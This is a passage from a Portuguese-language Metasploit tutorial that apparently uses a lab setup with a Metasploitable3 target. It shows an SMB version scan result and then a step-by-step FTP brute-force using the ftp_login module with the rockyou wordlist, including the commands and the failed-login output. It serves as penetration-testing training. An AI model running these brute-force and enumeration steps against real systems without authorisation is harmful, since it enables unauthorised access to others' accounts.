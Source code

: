 ```console
[+] 192.168.56.3:445      -   Host is running Windows 2008 R2 Standard SP1 (build:7601) (name:METASPLOITABLE3) (workgroup:WORKGROUP)
[*] 192.168.56.3:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
No exemplo, foi identificado um Windows 2008 R2 com SP1 e execução. Lembrando que o protocolo SMB é constantemente atacado.

Um bom exercício é procurar por outros módulos relacionados com SMB, por exemplo ``auxiliary/scanner/smb/smb_enumusers`` e ``auxiliary/scanner/smb/smb_enumshares``, pesquise o que esses fazem e teste-os.

## Exemplo A.2 - ``ftp_login``

O módulo ``ftp_login`` realiza um ataque de força bruta contra servidores FTP. Assim, é necessário especificar para ele um arquivo de usuário/senha que será submetido ao servidor FTP alvo. Veja os comandos e saídas a seguir:

```console
msf6 > use auxiliary/scanner/ftp/ftp_login
msf6 auxiliary(scanner/ftp/ftp_login) > options

Module options (auxiliary/scanner/ftp/ftp_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
...
   password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
...
   RHOSTS            192.168.56.108   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Usin
                                                g-Metasploit
   RPORT             21               yes       The target port (TCP)
...
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.56.108
RHOSTS => 192.168.56.108
msf6 auxiliary(scanner/ftp/ftp_login) > set USERPASS_FILE /usr/share/wordlists/rockyou.txt
USERPASS_FILE => /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ftp/ftp_login) > run

[*] 192.168.56.108:21     - 192.168.56.108:21 - Starting FTP login sweep
[!] 192.168.56.108:21     - No active DB -- Credential data will not be saved!
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: 123456: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: 12345: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: 123456789: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: password: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: iloveyou: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: princess: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: 1234567: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: rockyou: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: 12345678: (Incorrect: )
[-] 192.168.56.108:21     - 192.168.56.108:21 - LOGIN FAILED: abc123: (Incorrect: )
...
```
